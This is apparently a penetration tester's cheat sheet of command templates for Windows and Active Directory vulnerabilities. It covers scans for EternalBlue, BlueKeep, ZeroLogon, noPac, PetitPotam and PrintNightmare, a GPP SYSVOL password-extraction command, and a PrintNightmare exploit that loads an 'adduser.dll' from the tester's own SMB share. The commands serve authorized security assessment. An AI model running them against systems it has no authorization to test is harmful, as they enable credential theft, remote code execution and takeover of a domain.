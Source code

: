 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M gpp_password
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## Check SMB vulnerabilities

```
nmap -Pn --script smb-vuln* -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: ./targets/domain/computers.txt

## Check BlueKeep (CVE-2019-0708)

```
rdpscan <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Zero Logon (CVE-2020-1472)

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DC

## Check noPac (CVE-2021-42278 and CVE-2021-42287)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M nopac
```

= domain-controller: DOMAIN_CONTROLLER
= user: ${USER}
= password: ${PASSWORD}
= domain: ${DOMAIN}

## Check PetitPotam (CVE-2021-36942)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M petitpotam
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare with Docker (CVE-2021-34527)

```
docker run -v "<target>:/target.txt"-it itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $PWD/ad_computers.txt

## Check Print Nightmare with local install (CVE-2021-34527)

```
itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $PWD/ad_computers.txt

## Exploit Print Nightmare (CVE-2021-34527)

```
CVE-2021-1675 <domain>/<user>:<password>@<target> '\\<my_ip>\public\adduser.dll'
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

